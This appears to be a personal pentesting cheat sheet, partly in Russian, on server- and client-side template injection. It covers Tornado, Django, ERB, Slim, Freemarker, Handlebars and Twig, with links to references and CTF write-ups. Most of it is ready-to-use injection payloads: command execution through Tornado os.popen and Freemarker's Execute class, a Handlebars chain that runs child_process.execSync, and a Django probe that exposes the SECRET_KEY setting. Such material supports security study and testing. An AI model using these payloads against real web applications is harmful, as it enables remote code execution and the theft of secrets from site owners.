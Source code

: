 # SSTI/CSTI

Flask & Jinja2 [https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)

Template Injection Workshop (по сути, примеры, как это работает в python, php, java,..): [https://gosecure.github.io/template-injection-workshop/#0](https://gosecure.github.io/template-injection-workshop/#0)

Норм описание для h1 для CSTI: [https://hackerone.com/reports/125027](https://hackerone.com/reports/125027)

## Python

### Tornado

Link: [https://www.tornadoweb.org/en/stable/](https://www.tornadoweb.org/en/stable/)

Basic:

```python
{{ 2*2 }}
{% raw %}
{% import subprocess %}
{% import os %}
{% endraw %}{{ os.popen("whoami").read() }}
```

### Django

#### Django Templates

Link:[ https://docs.djangoproject.com/en/4.1/topics/templates/](https://docs.djangoproject.com/en/4.1/topics/templates/)

Basic:

```python
{% raw %}
{% debug %}
{% endraw %}
{{ setting.SECRET_KEY }}
```

### Jinja2

Link: [https://jinja.palletsprojects.com/en/3.1.x/](https://jinja.palletsprojects.com/en/3.1.x/)

## Ruby

### ERB

Link: [https://puppet.com/docs/puppet/5.5/lang\_template\_erb.html](https://puppet.com/docs/puppet/5.5/lang\_template\_erb.html)

Basic:

```ruby
<%= 7 * 7 %>
```

### Slim

Link: [https://github.com/slim-template/slim](https://github.com/slim-template/slim)

Basic:

```ruby
#{ 7 * 7 }
```

## Java

### Freemarker

Link:[ https://try.freemarker.apache.org/](https://try.freemarker.apache.org/)

Basic:

```java
// Code Execution — id:
${"freemarker.template.utility.Execute"?new()("id")}
```

В коде: [https://habr.com/ru/post/420549/](https://habr.com/ru/post/420549/)

Создаем модель данных:

```java
import freemarker.template.Configuration;
import freemarker.template.Template;
...
// Конфигурация
Configuration cfg = new Configuration(Configuration.VERSION_2_3_27);
// модель данных
Map<String, Object> root = new HashMap<>();
root.put("name", "Freemarker");
// шаблон
Template temp = cfg.getTemplate("test.ftl");
// обработка шаблона и модели данных
Writer out = new OutputStreamWriter(System.out);
// вывод в консоль
temp.process(root, out);
```

Spring поддерживает работу с этим шаблонизатором.

Через класс `freemarker.template.TemplateMethodModelEx` можно расширять команды в шаблонизаторе.

## JavaScript

### Handlebars

Link: [https://handlebarsjs.com/](https://handlebarsjs.com/)

Basic:

```javascript
${{7*7}} -> OK
${{7*'7'}} -> Empty
```

RCE (from [payload all the thing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#handlebars)):

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

## PHP

### Twig

Таск с CTFZone:&#x20;

* [https://blog.blackfan.ru/2020/03/volgactf-2020-qualifier-writeup.html](https://blog.blackfan.ru/2020/03/volgactf-2020-qualifier-writeup.html)
* [https://github.com/TeamGreyFang/CTF-Writeups/blob/master/VolgaCTF2020/Web-Newsletter/README.md](https://github.com/TeamGreyFang/CTF-Writeups/blob/master/VolgaCTF2020/Web-Newsletter/README.md)

